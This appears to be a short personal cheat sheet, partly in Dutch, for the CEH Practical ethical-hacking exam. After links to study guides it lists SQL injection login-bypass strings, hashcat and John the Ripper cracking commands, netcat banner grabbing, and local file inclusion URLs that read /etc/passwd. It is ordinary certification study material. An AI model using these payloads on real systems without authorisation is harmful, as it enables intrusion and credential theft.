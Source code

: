 # Practical voorbereiding
https://github.com/CyberSecurityUP/Guide-CEH-Practical-Master

https://ceh-practical.cavementech.com/module-2.-footprinting-and-reconnaissance/1.-footprinting-through-search-engines

https://conflick0.github.io/CEH/

https://github.com/Aftab700/CEH_Notes?tab=readme-ov-file




#bypass login by sql injection
username:  ' OR '1'='1' --    
of   
' OR 1=1 --
admin'--
admin' #
admin'/*
' OR 1=1#
' OR 1=1/*

administrator'--
password: blank

#crack hashes
hashid [hash]
hashcat -m [hash_mode] -a 0 [hash_file] [wordlist]

#banner grabbing
nc -v [IP] 80
send >    GET / HTTP/1.1


#dns
dig website.com ANY

#hidden directories
Dir buster

#crack encrypted ZIP
zip2john file.zip > hash.txt
john --wordlist=wordlist.txt hash.txt

#Local file Inclusion 
detect vulnarability
http://example.com/?file=../../../../etc/passwd
of
http://example.com/show.asp?view=../../../../../Windows/system.ini
http://example.com/view.php?page=../../../../etc/passwd
of document=


#Detect ARP spoofing
ARPWatch




